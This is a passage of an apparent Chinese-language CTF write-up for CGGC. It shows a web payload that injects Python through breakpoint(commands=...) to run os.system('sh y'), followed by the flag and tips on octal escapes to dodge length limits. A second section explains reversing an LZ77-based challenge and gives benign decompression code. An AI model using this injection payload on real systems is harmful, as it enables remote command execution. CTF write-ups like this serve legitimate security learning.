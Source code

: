 執行指令

```!
/SsTiMe?q=breakpoint(commands=["import os;os\x2esystem('sh y');;c"])
```

`CGGC{breakpoint_is_a_biiiig_gadget_oj237rpwd3i2}`

如果遇到長度問題可以用八進位的形式減少使用 `\x2e`  
或是用重覆寫檔構建 script

## Reverse
### Lazy7


這題其實就是實作了 lz77 壓縮演算法，用 IDA 觀察會做壓縮並替換部分的 byte，重複兩次
![Imgur](https://imgur.com/8eFSJOT.png)

所以只要將替換 byte 的部分還原，且實作解壓縮的部分，就會得到一串 base64 編碼，解碼後就會是一張 png 圖片

![Imgur](https://imgur.com/qh8XHjc.png)



```python
import base64


def base64_to_png(base64_str, output_file):

    if base64_str.startswith('data:image/png;base64,'):
        base64_str = base64_str.split(',')[1]

    image_data = base64.b64decode(base64_str)

    with open(output_file, 'wb') as f:
        f.write(image_data)

def decompress(compressed_data, num_entries):
    output = []
    output_pos = 0

    for i in range(0, num_entries):
        # Extract the distance, length, and next character from the compressed data
        offset = int.from_bytes(compressed_data[i * 12:i * 12 + 4], 'little')  # Distance to match
        length = int.from_bytes(compressed_data[i * 12 + 4:i * 12 + 8], 'little')  # Length of match
        next_char = compressed_data[i * 12 + 8: i * 12 + 9].decode('utf-8')  # Next unmatched character
        
        if length == 0:
            # No match, just add the literal character
            output.append(next_char)
            output_pos += 1
        else:
            # Copy match from the output using the offset
            for _ in range(length):
                start_index = output_pos - offset
                output.append(output[start_index])
                output_pos += 1
            # Append the next character after match
            if next_char != '':
                output.append(next_char)
                output_pos += 1
    
    return ''.join(output)
```